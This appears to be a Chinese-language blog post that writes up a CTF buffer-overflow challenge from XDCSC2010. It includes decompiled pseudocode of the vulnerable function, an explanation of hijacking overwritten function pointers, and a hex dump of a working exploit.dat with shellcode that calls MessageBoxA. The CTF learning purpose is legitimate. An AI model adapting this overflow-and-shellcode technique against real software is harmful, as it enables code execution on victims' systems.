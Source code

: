 ```yaml
---
layout: post
title: "一道XDCSC2010溢出题"
description: "XDCSC2010溢出题"
category: 技术
tags: [exploit]
---
```

{% include JB/setup %}

昨天偶然上了一下xdsec.org，发现上面放了往年的比赛题目，抱着试一试的心态下了xdcsc2010的题目来看看，这是第一个题的笔记。

这是一个溢出题，程序下载[ExploitMe](/assets/file/xdcsc2010/01yichu.zip)，题目要求如下：

![](/assets/img/xdcsc2010/01yichu/1.png)

抄起IDA，找到关键函数，F5一把，下面是大概的流程


	signed int __cdecl sub_401000()
	{
	  HANDLE v0; // eax@1
	  void *v1; // edi@1
	  void *v2; // ebp@1
	  HANDLE v3; // eax@1
	  void *v4; // esi@1
	  unsigned int v5; // ebx@2
	  HMODULE v6; // esi@3
	  signed int v8; // [sp+10h] [bp-318h]@1
	  void *hHeap; // [sp+14h] [bp-314h]@1
	  HANDLE v10; // [sp+18h] [bp-310h]@1
	  DWORD NumberOfBytesRead; // [sp+1Ch] [bp-30Ch]@1
	  int (**v12)(); // [sp+20h] [bp-308h]@1
	  char v13; // [sp+24h] [bp-304h]@4
	  int v14; // [sp+A4h] [bp-284h]@1
	  char v15; // [sp+A8h] [bp-280h]@6
	  char Buffer; // [sp+128h] [bp-200h]@3
	
	  v8 = 0;
	  v12 = &off_4050B4;
	  v14 = (int)off_4050B0;
	  NumberOfBytesRead = 0;
	  v0 = HeapCreate(0, 0x1000u, 0x10000u);
	  v1 = v0;
	  hHeap = v0;
	  v2 = HeapAlloc(v0, 0, 0x200u);
	  v3 = CreateFileA("exploit.dat", 0x80000000u, 1u, 0, 4u, 0x80u, 0);
	  v4 = v3;
	  v10 = v3;
	  if ( v3 != (HANDLE)-1 )
	  {
	    v5 = GetFileSize(v3, 0);
	    if ( v5 <= 0x200 )
	    {
	      ReadFile(v4, &Buffer, v5, &NumberOfBytesRead, 0);
	      memcpy(v2, &Buffer, v5);
	      memset(&Buffer, 0, 0x200u);
	      v6 = LoadLibraryA("user32.dll");
	      dword_408510 = (int)GetProcAddress(v6, "MessageBoxW");
	      dword_408514 = (int)GetProcAddress(v6, "MessageBoxA");
	      if ( v5 <= 0x84 )
	        memcpy(&v13, v2, v5);
	      HeapFree(hHeap, 1u, v2);
	      memset(v2, 0, 0x80u);
	      if ( v5 <= 0x84 )
	        memcpy(&v15, v2, v5);
	      ((void (__thiscall *)(int (***)()))*v12)(&v12);
	      (*(void (__thiscall **)(int *))v14)(&v14);
	      v1 = hHeap;
	      v4 = v10;
	      v8 = 1;
	    }
	  }
	  if ( v4 )
	    CloseHandle(v4);
	  if ( v2 )
	    HeapFree(v1, 1u, v2);
	  if ( v1 )
	    HeapDestroy(v1);
	  return v8;
	}

程序流程还是比较明了的，先读取exploit.dat里面的数据到stack上面，接着拷到heap，再倒腾回stack，真实蛋疼，之前就受这个影响考虑多了，以为要涉及堆溢出等。主要是要注意到函数末尾的两个call，v12和v14，经过调试可以发现v14里面的数据是我们可以控制的。这里我就犯了一个错误，导致浪费了大量时间。我当时注意到函数中已经得到了MessageBoxA的地址（dword_408514），我就想直接跳过去，但是由于esp在低地址，参数老是构造不好，因为esp那块数据没有办法覆盖。


今天上午才突然开了窍，既然eip都控制了，还有啥干不了的，直接将eip定位到stack上我们能够覆盖到的数据，然后写几句压栈的shellcode，之后跳转到MessageBoxA里面去。最终的exploit.dat如下

00000000h: 7C FC 12 00 51 6A 00 68 C8 FC 12 00 68 D8 FC 12 ; |?.Qj.h赛..h攸.
00000010h: 00 6A 00 B9 14 85 40 00 FF 11 59 C3 00 00 00 00 ; .j.?匑..Y?...
00000020h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
00000030h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
00000040h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
00000050h: 45 78 70 6C 6F 69 74 4D 65 00 00 00 00 00 00 00 ; ExploitMe.......
00000060h: 45 78 70 6C 6F 69 74 20 73 75 63 63 65 73 73 00 ; Exploit success.
00000070h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
00000080h: 78 FC 12 00                                     ; x?.


溢出结果


![](/assets/img/xdcsc2010/01yichu/2.png)